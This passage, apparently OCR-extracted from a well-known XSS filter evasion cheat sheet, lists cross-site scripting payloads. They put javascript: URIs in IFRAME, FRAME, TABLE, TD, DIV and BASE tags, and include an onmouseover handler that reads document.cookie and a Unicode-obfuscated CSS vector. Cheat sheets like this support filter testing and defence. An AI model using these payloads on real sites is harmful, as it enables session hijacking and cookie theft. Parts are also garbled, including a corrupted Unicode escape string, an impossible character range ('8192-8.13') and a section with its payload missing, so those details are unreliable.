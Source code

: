 (Submitted by Moritz Naumann)
#### I#### FRAME¶
If iFrames are allowed there are a lot of other XSS problems as well:
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>

#### IFRAME Event Based¶
IFrames and most other elements can use event based mayhem like the following:
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>

(Submitted by: David Cross)
FRAME¶
Frames have the same sorts of XSS problems as iFrames
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>

#### TABLE¶
<TABLE BACKGROUND="javascript:alert('XSS')">

##### TD¶
Just like above, TD's are vulnerable to BACKGROUNDs containing JavaScript XSS vectors:
<TABLE><TD BACKGROUND="javascript:alert('XSS')">

#### DIV¶
##### DIV Background-image¶
<DIV STYLE="background-image: url(javascript:alert('XSS'))">

##### DIV Background-image with Unicode XSS Exploit¶
This has been modified slightly to obfuscate the URL parameter:
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">

(Original vulnerability was found by Renaud Lifchitz as a vulnerability in Hotmail)
##### DIV Background-image Plus Extra Characters¶
RSnake built a quick XSS fuzzer to detect any erroneous characters that are allowed after the open parenthesis but before the JavaScript directive in IE. These are in decimal but you can include hex and add padding of course. (Any of the following chars can be used: 1-32, 34, 39, 160, 8192-8.13, 12288, 65279):
<DIV STYLE="background-image: url(javascript:alert('XSS'))">

##### DIV Expression¶
A variant of this attack was effective against a real-world XSS filter by using a newline between the colon and expression:
<DIV STYLE="width: expression(alert('XSS'));">

#### Downlevel-Hidden Block¶
Only works on the IE rendering engine - Trident. Some websites consider anything inside a comment block to be safe and therefore does not need to be removed, which allows our XSS vector to exist. Or the system might try to add comment tags around something in a vain attempt to render it harmless. As we can see, that probably wouldn't do the job:


#### BASE Tag¶
(Works on IE in safe mode) This attack needs the // to comment out the next characters so you won't get a JavaScript error and your XSS tag will render. Also, this relies on the fact that many websites uses dynamically placed images like images/image.jpg rather than full paths. If the path includes a leading forward slash like /images/image.jpg, you can remove one slash from this vector (as long as there are two to begin the comment this will work):
<BASE HREF="javascript:alert('XSS');//">
